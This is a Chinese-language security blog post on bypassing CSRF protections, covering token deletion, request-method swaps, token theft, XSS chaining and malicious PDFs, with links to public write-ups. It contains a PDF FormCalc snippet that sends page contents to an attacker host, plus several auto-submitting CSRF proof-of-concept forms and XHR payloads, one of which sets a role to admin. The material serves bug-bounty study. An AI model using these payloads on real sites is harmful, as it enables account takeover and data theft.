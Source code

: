 
#	 起因
我最近在研究国外的各种新思路，最近看到了一篇CSRF的相关文章，只是写了各种Poc，我在写之前查找了大量的案例，这也就是为什么说技术分享的受益最大永远都是分享者，在这些案例里面我发现大多都是没有CSRF token或者其他防护机制的，同样的我查找了很多文章关于CSRF攻击，也并没有找到我想要的，于是就有了今天的文章


# CSRF Protection?
我们在漏洞挖掘过程中不难看出，很多时候我们会遇到各种CSRF的防护机制，随便一个网站都有token或者其他的防护机制。下面我们需要了解一下常见的防护方法
-	CSRF token
-	Referer Based Protection
-	XRSF Header
-	verify code
-	Seesions timeout
-	Double Password
....



# Bypass
我尽力寻找了各种案例和bypass思路，文后会有我看过的文章链接

---
删！
这个思路再很多时候都适用，面对`Referer` `XRSF Header` `token`都可以对其进行删除
这里我们用一个案例来说明
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`
写文的日子是`2019-1-8`这个write up是前天的漏洞，删除了`XRSF Header`

---
改！
这个思路我是在medium上看见的
`https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276`
修改了请求方式GET改成了POST 同样的漏洞挖也挖到过一次，我先修改了请求方式，并把POST的参数通过GET传入，但是也成功完成了CSRF攻击
如果你观察的仔细的话你可以看出
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`这个案例删除了`XRSF Header`但是没有成功还是需要修改POST为GET

---
盗token！
尝试从其他渠道获得CSRF token
`http://www.anquan.us/static/bugs/wooyun-2015-090935.html`
利用了Referer泄露获取CSRF token 再利用CSRF token进行CSRF攻击

---
Use Bad PDF
`get() and post() methods of FormCalc allow to ex-filtrate CSRF-token`
这是我在twitter找到的一个文档上的原文
其实就是我们的PDF被浏览器解析，因为插件的原因可以进行请求，我们上传恶意的PDF文件在目标网站这样可以绕过referer甚至CSRF token ，这个漏洞和去年(2018)阿里的Chrome支持的PDF跳转是类似的。
我们只需要制作恶意的PDF文件，在里面插入我们的恶意代码
```html
<script contentType='application/x-formcalc'>
var content = GET("https://example.com/Settings.action"); Post("http://attacker.site/loot",content,"text/plain");
</script>
```
没错Poc是抄的，原地址
`https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf`
这是一个CSRF bypass的PPT本文的一些思路也取自这里

---
改Cookie！
有些时候我们会遇到哪种可以修改cookie的漏洞
比如`CLRF`等，我们可以利用这些漏洞打组合拳进行CSRF攻击

---
组合拳！
XSS+CSRF
可以利用XSS漏洞进行直接的请求饶过Referer限制
也可以利用XSS盗取CSRF token 从而进行CSRF漏洞利用

---

# 浓缩
我在寻找更多bypass手段的时候我找到了这个调查
![PIC](http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF1.png)
![PIC](http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF2.png)
那么我们真正在实战中用到比较多的就是

-	删除CSRF token
-	置空token参数
-	修改请求方法
-	与token相同长度的任意字符串替换token
-	固定token
我相信看到这里各位已经心领神会了

---





# 关于提交方式
```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```
```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```
```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST"&>
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

#	参考链接
```
https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276
https://medium.com/@iaincollins/csrf-tokens-via-ajax-a885c7305d4a
https://medium.com/@arbazhussain/stealing-access-token-of-one-drive-integration-by-chaining-csrf-vulnerability-779f999624a7
https://medium.com/bugbountywriteup/content-negotiation-with-csrf-969e639d6a1a
https://medium.com/rubyinside/a-deep-dive-into-csrf-protection-in-rails-19fa0a42c0ef
https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf
Check out @detectify’s Tweet: https://twitter.com/detectify/status/1081520785322332166?s=09
http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/
https://github.com/TheRook/CSRF-Request-Builder
```

#	反思
沉淀!
